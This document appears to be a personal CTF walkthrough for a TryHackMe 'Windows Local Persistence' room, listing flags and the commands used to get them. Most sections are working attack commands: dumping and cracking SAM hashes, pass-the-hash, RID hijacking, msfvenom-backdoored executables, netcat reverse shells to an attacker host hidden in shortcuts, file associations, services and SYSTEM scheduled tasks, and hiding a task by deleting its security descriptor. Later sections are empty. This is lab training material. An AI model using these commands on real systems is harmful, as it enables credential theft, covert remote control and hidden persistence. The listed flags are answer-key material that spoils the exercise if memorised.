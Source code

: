 # Windows Local Persistence

### Tampering With Unprivileged Accounts
- Insert flag1 here<br />
We can check that the server has WinRM enabled with the command `Test-WSMan`. <br />
First, add thmuser1 to the backup group: `net localgroup "Backup Operators" thmuser1 /add`, and to the winRM group: `net localgroup "Remote Management Users" thmuser1 /add` Now, we need to disable LocalAccountTokenFilterPolicy, strips any local account of its administrative privileges when logging in remotely. To do that, run `reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /t REG_DWORD /v LocalAccountTokenFilterPolicy /d 1`. Now we can download password hashes: 

      reg save hklm\system system.bak
      reg save hklm\sam sam.bak
      download system.bak
      download sam.bak
  
And dump them:

      python3.9 /opt/impacket/examples/secretsdump.py -sam sam.bak -system system.bak LOCAL
Then, we perform a pass-the-hash attack: `evil-winrm -i 10.10.62.15 -u Administrator -H 1cea1d7e8899f69e89088c4cb4bbdaa3`. <br /> Flag is `THM{FLAG_BACKED_UP!}`
- Insert flag2 here<br />
Run `secedit /export /cfg config.inf` to export the configuration file, then open it and edit it by adding our user to the SeBackupPrivilege and SeRestorePrivilege lines: <br />
![image](https://github.com/user-attachments/assets/fa5d5842-8547-4594-89a2-3e218ce924b2)<br />
Now load the configuration back into the system:

      secedit /import /cfg config.inf /db config.sdb
      
      secedit /configure /db config.sdb /cfg config.inf
However, the user still can't log over winRM because it is not in the "Remote Management Users" group.  Instead of adding the user to the Remote Management Users group, we'll change the **security descriptor** associated with the WinRM service to allow thmuser2 to connect. So, run `Set-PSSessionConfiguration -Name Microsoft.PowerShell -showSecurityDescriptorUI` on powershell: <br />
![image](https://github.com/user-attachments/assets/a7c6d479-ed38-4560-a179-8fd3d6132b63)<br />
We can now log in the account from our attackbox whenever we want: <br />
![image](https://github.com/user-attachments/assets/ad1387a5-522f-4272-8056-899db8a941dd)<br />
`THM{IM_JUST_A_NORMAL_USER}`

- Insert flag3 here<br />
The SAM is restricted to the SYSTEM account only, so even the Administrator won't be able to edit it. To run Regedit as SYSTEM, we will use psexec: `.\PsExec64.exe -i -s regedit`<br />
Go to HKLM\SAM\SAM\Domains\Account\Users\, and click on 0x3F2, which is the hexadecimal value for 1010(thmuser3 RID).<br />
From there, the value "F" holds the user RID<br />
![image](https://github.com/user-attachments/assets/a2827e8c-f267-40c2-828e-843f93698cda)<br />
Notice that the RID is stored in little endian. The hexadecimal for 500 is 0x1F4, so we will substitute thmuser3's RID with F4 01. Now, as described in the task, log in thmuser3 via RDP: `xfreerdp /u:thmuser3 /p:Password321 /v:10.10.62.15`. Finally, get the flag: <br />
![image](https://github.com/user-attachments/assets/1ad110d7-35a3-4282-abcc-588f2e9f763f)<br />
`THM{TRUST_ME_IM_AN_ADMIN}`

### Backdooring Files
- Insert flag5 here <br />
You can easily plant a payload of your preference in any .exe file with msfvenom. The binary will still work as usual but execute an additional payload silently by adding an extra thread in your binary. To create a backdoored putty.exe, we can use the following command:

            msfvenom -a x64 --platform windows -x putty.exe -k -p windows/x64/shell_reverse_tcp lhost=ATTACKER_IP lport=4444 -b "\x00" -f exe -o puttyX.exe
Another way is to change the shortcut file of a .exe in the desktop to point to a script of our own. et's create a simple Powershell script in C:\Windows\System32. The script will execute a reverse shell and then run calc.exe: 

            Start-Process -NoNewWindow "c:\tools\nc64.exe" "-e cmd.exe ATTACKER_IP 4445"
            
            C:\Windows\System32\calc.exe
The final target for the shortcut is: `powershell.exe -WindowStyle hidden C:\Windows\System32\scirpt.ps1`. `-windowstyle hidden` is important because it won't open a powershell window, which might look a bit sus. 
So change the shortcut, open a netcat listener, and run the calculator. Get the flag:<br />
![image](https://github.com/user-attachments/assets/9a7f08a4-cd60-49cb-95c0-d72e83b2465b)<br />
`THM{NO_SHORTCUTS_IN_LIFE}`

By the way, WHERE THE HELL IS FLAG 4!?
- Insert flag6 here<br />
First, let's create a ps1 script with the following content and save it to C:\Windows\backdoor2.ps1

            Start-Process -NoNewWindow "c:\tools\nc64.exe" "-e cmd.exe 10.11.85.53 4448"
            C:\Windows\system32\NOTEPAD.EXE $args[0]

Now let's change the registry key to run our backdoor script in a hidden window. Move to HKLM\Software\Classes\shell\open\command and edit it: <br />
![image](https://github.com/user-attachments/assets/baa53c54-d822-4755-aa35-31b2d3bbe472)<br />
Finally get the flag: <br />
![image](https://github.com/user-attachments/assets/909c44cc-eff8-41ad-9411-cf8c3bb38762)<br />
`THM{TXT_FILES_WOULD_NEVER_HURT_YOU}`

### Abusing Services
- Insert flag7 here<br />
Let's create a reverse shell with the format of a windows service, using msfvenom: `msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4448 -f exe-service -o rev-svc.exe`. <br />
You can then copy the executable to your target system, say in C:\Windows and point the service's binPath to it. To transfer the payload, we can open an http server with python: `python3 -m http.server 8000`, then donwload it from powershell using certutil: `certutil -urlcache -split -f http://10.11.85.53/rev-svc.exe rev-svc.exe`<br />

At this point we can create a service pointing to this payload, scheduled to start every time the machine is started: 

      sc.exe create THMservice2 binPath= "C:\windows\rev-svc.exe" start= auto
Now open a netcat listener, and start the service: 

      sc.exe start THMservice2
![image](https://github.com/user-attachments/assets/75934e7d-2541-45c8-b733-0a6d9b2d0a7f)<br />
`THM{SUSPICIOUS_SERVICES}`

- Insert flag8 here<br />
I dont really want to create a different payload, to configure the existing service, just run: `sc.exe config THMservice3 binPath= "C:\Windows\rev-svc.exe" start= auto obj= "LocalSystem"`, and do the same as before to get the flag: <br />
![image](https://github.com/user-attachments/assets/8c4c08cc-1e1c-458e-a4b2-f53a1298d7e7)<br />
`THM{IN_PLAIN_SIGHT}`

### Abusing Scheduled Tasks 
- Insert flag9 here<br />
The following command: `schtasks /create /sc minute /mo 1 /tn THM-TaskBackdoor /tr "c:\tools\nc64 -e cmd.exe ATTACKER_IP 4449" /ru SYSTEM` creates a scheduled task that runs every minute, named THM-TaskBackdoor.<br />
The /ru option indicates that the task will run with SYSTEM privileges. now simply open a listener on port 4449 and wait a few seconds: <br />
![image](https://github.com/user-attachments/assets/de18b9cf-e4b9-436b-9836-a18fbd623aa3)<br />
Apparently THM wants me to hide the sheduled task.. damn it. <br />
To hide our scheduled task, we can make it invisible to any user in the system by deleting its **Security Descriptor** (SD). The security descriptor is simply an ACL that states which users have access to the scheduled task. Deleting the SD is equivalent to disallowing all users' access to the scheduled task, including administrators.. Run `c:\tools\pstools\PsExec64.exe -s -i regedit` to open the registry. Move to `Computer\HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree\THM-TaskBackdoor`<br />
![image](https://github.com/user-attachments/assets/f08ca4ac-c3ef-47d6-a428-f03b2b3e572e)<br />
Great:<br />
![image](https://github.com/user-attachments/assets/5fc7b4bb-8937-4507-9b46-c8f0492d254c)<br />
`THM{JUST_A_MATTER_OF_TIME}`

### Logon Triggered Persistence
- Insert flag10 here<br />
Each user has a folder under C:\Users\<your_username>\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup where you can put executables to be run whenever the user logs in. An attacker can achieve persistence just by dropping a payload in there.<br />
- Insert flag11 here
- Insert flag12 here
- Insert flag13 here

### Backdooring the Login Screen / RDP
- Insert flag14 here
- Insert flag15 here

### Persisting Through Existing Services
- Insert flag16 here
- Insert flag17 here

### 
